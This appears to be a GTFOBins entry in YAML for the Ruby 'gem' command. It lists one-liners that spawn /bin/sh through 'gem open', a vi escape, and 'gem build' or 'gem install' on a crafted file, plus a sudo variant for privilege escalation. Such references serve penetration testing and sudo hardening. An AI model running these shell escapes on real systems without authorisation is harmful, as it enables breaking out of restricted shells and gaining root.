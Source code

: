 ```yaml
---
functions:
  shell:
    - description: This requires the name of an installed gem to be provided (`json` is usually installed).
      code: gem open -e "/bin/sh -c /bin/sh" json
    - description: This invokes the default editor, which is likely to be [`vi`](/gtfobins/vi/), other functions may apply. This requires the name of an installed gem to be provided (`json` is usually installed).
      code: |
        gem open json
        :!/bin/sh
    - description: This executes the specified file as [`ruby`](/gtfobins/ruby/) code.
      code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/x
        gem build $TF/x
    - description: This executes the specified file as [`ruby`](/gtfobins/ruby/) code.
      code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/x
        gem install --file $TF/x
  sudo:
    - description: This requires the name of an installed gem to be provided (`json` is usually installed).
      code: sudo gem open -e "/bin/sh -c /bin/sh" json
---
```

